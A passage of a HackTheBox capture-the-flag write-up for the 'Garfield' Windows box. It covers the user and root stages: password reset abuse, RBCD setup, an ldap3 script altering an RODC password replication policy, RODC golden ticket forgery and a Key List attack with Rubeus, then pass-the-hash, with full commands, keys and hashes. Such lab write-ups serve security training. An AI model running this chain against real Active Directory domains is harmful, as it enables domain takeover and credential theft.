


## 5. User Flag — Shell as l.wilson

Within 30–60 seconds, the scheduled task fires and the reverse shell lands on our listener:



```
PS C:\Users\l.wilson>
```

Checking BloodHound earlier showed that `l.wilson` has `ForceChangePassword` over `l.wilson_adm` — so from here we simply reset that account's password:

```powershell
Import-Module ActiveDirectory
Set-ADAccountPassword -Identity l.wilson_adm -Reset `
  -NewPassword (ConvertTo-SecureString 'WhoKnows123!' -AsPlainText -Force)
```



Verify and grab the flag via Evil‑WinRM:

```bash
evil-winrm -i 10.129.22.139 -u 'l.wilson_adm' -p 'WhoKnows123!'
```



```
user.txt → d4f05e2e7b55d30b0b8cb418f9d68dc0
```

## 6. Privilege Escalation Path to Root

BloodHound shows that `l.wilson_adm` has an `AddSelf` privilege against the **RODC Administrators** group. That's the gateway into everything that follows.

### 6.1 Taking Over RODC Administrators

```bash
bloodyAD --host 10.129.22.139 -d garfield.htb -u l.wilson_adm -p 'WhoKnows123!' \
  add groupMember "RODC Administrators" l.wilson_adm
```



### 6.2 RBCD Against the RODC

The end goal is to extract the **`krbtgt_8245`** key material so we can forge tickets the RODC itself would be trusted to issue — but we have no local admin creds on `RODC01` yet. What we *do* have, thanks to our new `RODC Administrators` membership, is `WriteAccountRestrictions` over the `RODC01` computer object. That lets us set `msDS-AllowedToActOnBehalfOfOtherIdentity` — i.e. configure **Resource‑Based Constrained Delegation (RBCD)** on it.

**The plan:**

1. Create a fake computer account whose password we control.
2. Configure RBCD on `RODC01` to trust that fake computer to delegate (impersonate users) to it.
3. Use an S4U2Self/S4U2Proxy request from the fake computer to get a service ticket **as Administrator** to `RODC01`.

Create the fake machine account:

```bash
impacket-addcomputer garfield.htb/l.wilson_adm:'WhoKnows123!' \
  -computer-name 'FAKE01$' -computer-pass 'Fake2026!' -dc-ip 10.129.22.139
```



Configure RBCD on `RODC01` from the Evil‑WinRM session:

```powershell
Import-Module ActiveDirectory
$fake = Get-ADComputer 'FAKE01'
Set-ADComputer 'RODC01' -PrincipalsAllowedToDelegateToAccount $fake
```

### 6.3 Modifying the Password Replication Policy

The RODC only caches passwords for accounts explicitly allowed to replicate to it, governed by two attributes on the RODC object:

- **`msDS-RevealOnDemandGroup`** → allow‑list.
- **`msDS-NeverRevealGroup`** → deny‑list, which **takes priority** over the allow‑list.

Later, when we perform a **Key List Attack** and ask DC01 for Administrator's credentials "as if" the RODC were requesting them to cache, DC01 checks these lists. Since `Administrator` is, by default, indirectly covered by `Administrators`/`Account Operators`/etc. in `msDS-NeverRevealGroup`, the request would normally be rejected outright.

So we need to:

1. Add `Administrator` to `msDS-RevealOnDemandGroup`.
2. Remove every default group from `msDS-NeverRevealGroup` (`Denied RODC Password Replication Group`, `Account Operators`, `Server Operators`, `Backup Operators`, `Administrators`).

```python
import ldap3
s = ldap3.Server('10.129.22.139')
c = ldap3.Connection(s, 'garfield.htb\\l.wilson_adm', 'WhoKnows123!', authentication=ldap3.NTLM)
c.bind()

c.modify('CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb',
         {'msDS-RevealOnDemandGroup': [(ldap3.MODIFY_ADD, ['CN=Administrator,CN=Users,DC=garfield,DC=htb'])]})
print("Add RevealOnDemand:", c.result)

for dn in ['CN=Denied RODC Password Replication Group,CN=Users,DC=garfield,DC=htb',
           'CN=Account Operators,CN=Builtin,DC=garfield,DC=htb',
           'CN=Server Operators,CN=Builtin,DC=garfield,DC=htb',
           'CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb',
           'CN=Administrators,CN=Builtin,DC=garfield,DC=htb']:
    c.modify('CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb',
              {'msDS-NeverRevealGroup': [(ldap3.MODIFY_DELETE, [dn])]})
    print(f"Remove {dn.split(',')[0]}: {c.result['description']}")
```



All modifications succeed — made possible only because we're now a member of `RODC Administrators`. Without this step, the upcoming Key List Attack would fail with *"User is not allowed to have passwords replicated in RODCs"*.

### 6.4 RODC Golden Ticket + Key List Attack

This is the final two‑part chain to obtain Administrator's NTLM hash from the real DC. It relies on **Rubeus v2.3.3+**, since earlier versions don't correctly embed the RODC's `kvno` in forged tickets (without it, `DC01` throws `KRB_AP_ERR_BAD_INTEGRITY`).

**Part A — Forge an RODC Golden Ticket**

Upload Rubeus and build a forged TGT for `Administrator`, signed with the AES256 key of `krbtgt_8245` (the RODC's own krbtgt account):

```powershell
.\Rubeus_latest.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap `
  /outfile:C:\users\l.wilson_adm\tgt.kirbi `
  /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 `
  /user:Administrator /id:500 /domain:garfield.htb `
  /sid:S-1-5-21-2502726253-3859040611-225969357
```




Key parameters:

- `/rodcNumber:8245` → embeds the correct RODC `kvno` so `DC01` recognizes and accepts the ticket.
- `/aes256:` → the `krbtgt_8245` key used to sign/encrypt the forged ticket.
- `/user:Administrator /id:500` → the identity being impersonated.
- `/flags:forwardable,renewable,enc_pa_rep` → required flags for the upcoming Key List request to succeed.

**Part B — Key List Request**

With the forged TGT in hand, request a `krbtgt` service ticket using the **Key List** extension — this is the legitimate mechanism RODCs use to pull NTLM hashes for local authentication, which we abuse here with our forged ticket:

```powershell
.\Rubeus_latest.exe asktgs /enctype:aes256 /keyList `
  /ticket:tgt_2026_04_05_21_36_56_Administrator_to_krbtgt@GARFIELD.HTB.kirbi `
  /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /nowrap
```



The flow:

1. Present the forged TGT to `DC01`, claiming to be `Administrator`, "originating" from the RODC.
2. `DC01` validates the ticket signature against `krbtgt_8245`'s key → valid.
3. `DC01` checks the PRP: is `Administrator` allowed to replicate to this RODC? → **yes**, because we modified it in step 6.3.
4. `DC01` responds with a `KERB-KEY-LIST-REP` structure containing **Administrator's real NTLM hash**.

```
Password Hash : EE238F6DEBC752010428F20875B092D5
```

## 7. Root Flag

With the NTLM hash in hand, pass‑the‑hash straight into Evil‑WinRM as `Administrator`:

```bash
evil-winrm -i 10.129.22.139 -u Administrator -H EE238F6DEBC752010428F20875B092D5
```



```
root.txt → 894342fba3d84491d5e35f5a270a2b52
```

🐱 Box pwned.

## 8. Summary of the Attack Chain

1. **Recon** → Windows Domain Controller (`DC01.garfield.htb`), AD/Kerberos/SMB/WinRM exposed, SMB signing required.
2. **Foothold creds** (`j.arbuckle`) validated over SMB/LDAP; enumeration reveals a hidden **RODC** (`RODC01`) via the `krbtgt_8245` account.
3. LDAP enumeration of `RODC01` shows `Administrator`'s credentials are already cached on it (`msDS-RevealedUsers`), but the RODC itself sits on an unreachable internal subnet.
4. **SYSVOL** is writable by `j.arbuckle` (member of **IT Support**, which holds `WriteProperty` over `Script-Path`) → hijack `l.wilson`'s logon script to catch a reverse shell when a scheduled task runs it.
5. As `l.wilson`, abuse `ForceChangePassword` over `l.wilson_adm` → reset its password → **user flag**.
6. `l.wilson_adm` can `AddSelf` to **RODC Administrators** → gains `WriteAccountRestrictions` over `RODC01`.
7. Configure **RBCD** on `RODC01` using a fake computer account under our control.
8. Modify the RODC's **Password Replication Policy** to allow `Administrator`'s credentials to be revealed.
9. Forge an **RODC Golden Ticket** signed with `krbtgt_8245`'s AES key, then perform a **Key List Attack** against the real DC to retrieve `Administrator`'s NTLM hash.
10. **Pass‑the‑hash** as `Administrator` → **root flag**.

---

<p align="center"><i>Writeup by BALD — HackTheBox: Garfield (Hard, Windows)</i></p>
